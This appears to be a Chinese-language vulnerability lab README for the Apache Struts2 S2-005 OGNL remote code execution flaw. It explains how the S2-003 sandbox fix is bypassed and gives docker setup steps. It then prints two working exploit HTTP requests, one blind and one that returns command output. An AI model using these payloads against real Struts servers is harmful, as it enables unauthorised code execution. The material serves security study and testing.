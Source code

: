 # S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

### 执行任意命令POC（无回显，空格用`@`代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![](1.jpeg)

大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。

### 执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）：

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27id%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![](2.png)

![](3.png)
